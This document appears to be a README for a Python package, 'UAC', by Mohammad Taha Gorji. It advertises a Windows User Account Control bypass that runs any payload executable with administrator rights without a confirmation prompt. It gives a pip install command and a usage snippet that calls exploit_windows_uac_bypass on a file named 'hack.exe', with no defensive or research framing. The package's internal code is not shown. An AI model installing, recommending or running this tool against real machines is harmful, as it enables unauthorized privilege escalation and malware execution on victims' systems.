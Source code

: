 # UAC Bypass

A python library that is an exploit for UAC Bypass on Windows. It works on any version of Windows and can execute a pyload(exe) with admin access without confirmation.

**Project:** UAC
**Creator:** Mohammad Taha Gorji

---



## Installation

Users can install UAC Bypass using pip:

```bash
pip install UAC
```

## Getting Started

Use

```python
# Import UAC Bypass
from UAC import exploit_windows_uac_bypass


# Use
if __name__ == "__main__":
    # Your Path! For Example payload = r"D:\Project\UACbypass\hack.exe"
    payload = r"D:\Project\UACbypass\hack.exe"

    if exploit_windows_uac_bypass(payload):
        print("Bypass initiated. اگر لاگ آف کنید، payload اجرا می‌شود.")
    else:
        print("Bypass failed.")
```

---


## License

This project is licensed under the MIT License.
```


By Mohammad Taha Gorji
Github: https://Github.com/mr-r0ot